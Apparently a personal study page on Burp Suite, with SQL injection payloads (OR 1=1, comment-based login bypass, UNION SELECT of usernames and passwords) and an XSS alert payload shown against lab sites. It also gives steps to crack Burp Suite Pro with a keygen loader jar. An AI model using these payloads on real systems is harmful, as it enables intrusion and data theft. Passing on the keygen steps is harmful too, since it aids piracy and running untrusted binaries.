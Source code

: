 ```yaml
---
title: Meow's Testing Tools - Burpsuite
date: 2019-09-17 11:11:11 -0400
categories: [10CyberAttack, CyberAttackTools]
tags: [CyberAttack, CyberAttackTools]
toc: true
image:
---
```


[toc]

---

# Burpsuite

---

test web: `www.dvwa.co.uk`

---

## Testing workflow

![burp-workflow](https://i.imgur.com/IlK1tx3.jpg)


---


## SQL injection


![Screen Shot 2020-11-18 at 12.29.51](https://i.imgur.com/XqX9weI.png)

`UPDATE, INSERT, SELECT, ORDER BY`

1. retrieve hidden data:
   1. input: Gifts
   2. `http://web/products?category=Gifts`
   3. `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
   4. input: Gifts'--
   5. `http://web/products?category=Gifts'--`
   6. `SELECT * FROM products WHERE category = 'Gifts'`--' AND released = 1
   7. input: Gifts`'+OR+1=1--`
   8. `http://web/products?category=Gifts'+OR+1=1--`
   9. `SELECT * FROM products WHERE category = 'Gifts' OR 1=1`--' AND released = 1
2. subverting application logic
   1. `GET /web3/login/?id=1&Submit=Submit HTTP/1.1`
   2. `GET /web3/login/?id=1'OR 1=1 #`&Submit=Submit `HTTP/1.1`
   3. `GET /web3/login/?id=1'+OR+1+%3d+1+%23&`Submit=Submit `HTTP/1.1`
   4. input: admin 12345
   5. `SELECT * FROM user WHERE username = 'admin' AND password = '12345'`
   6. input: admin'--
   7. `SELECT * FROM user WHERE username = 'admin'`--' AND password = '12345'
3. retrieve data from other database tables
   1. input: Gifts
   2. `SELECT name, description FROM products WHERE category = 'Gifts'`
   3. input: Gifts' UNION SELECT username, password From users--
   4. `SELECT name, description FROM products WHERE category = 'Gifts' UNION SELECT username, password From users`--
4. examining the database
   1. oracle: `SELECT * FROM v$version`
   2. list the table and database: `SELECT * FROM information_schema.tables`
5. blind SQL injection vulnerabilities


detecting SQL injection vulnerabilities: use scanner


[SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

lab:

```
https://abc.net/filter?category=Lifestyle' UNION SELECT NULL,NULL,NULL--


```


---

## XSS Exploitation

1. execute payload as `<script>alert(“hello”)</script>`


# install burpsuite


[file](https://drive.google.com/drive/folders/1YKAeBIXPeUFW78buqRlJ9Yg1Ln6W2f1R)

```bash
# Install homebrew

rm -rf /Library/Java/JavaVirtualMachines/adoptopenjdk-14.jdk

# Tap homebrew/cask-versions
brew tap homebrew/cask-versions

# install java8:
brew cask install adoptopenjdk8

# Check if java8 is successfully installed or not
/usr/libexec/java_home -verbose

# cd to the file
cd /Applications/Burp\ Suite\ Community\ Edition.app/Contents/java/app

# Window1:
/Library/Java/JavaVirtualMachines/adoptopenjdk-14.jdk/Contents/Home/bin/java -jar burp-loader-keygen-2_1_07.jar

-jar burp-loader-keygen.jar

# add file
-Xbootclasspath/p:burp-loader-keygen-2_1_07.jar

# Window2:
/Library/Java/JavaVirtualMachines/adoptopenjdk-14.jdk/Contents/Home/bin/java -jar burpsuite_pro_v2.1.07.jar

/Library/Java/JavaVirtualMachines/liberica-jdk-8.jdk/Contents/Home/bin/java -jar burpsuite_pro_v1.7.31


# Create a Bash Alias
# If you are missing a .bash_profile
burp2.1()
{
/Library/Java/JavaVirtualMachines/adoptopenjdk-14.jdk/Contents/Home/bin/java -jar /Applications/Burp\ Suite\ Community\ Edition.app/Contents/java/app/burpsuite_pro_v2.1.07.jar
}

# Run
source ~/.bash_profile
# or
source ~/.zshrc

# Now you can type burp2.1 in terminal to open Burp Suite directly
```

[link](https://www.cnblogs.com/shaosks/p/13367761.html)
[link](https://github.com/raystyle/BurpSuite_Pro_v1.7.32)
[link](https://resources.infosecinstitute.com/burpsuite-tutorial/)






.
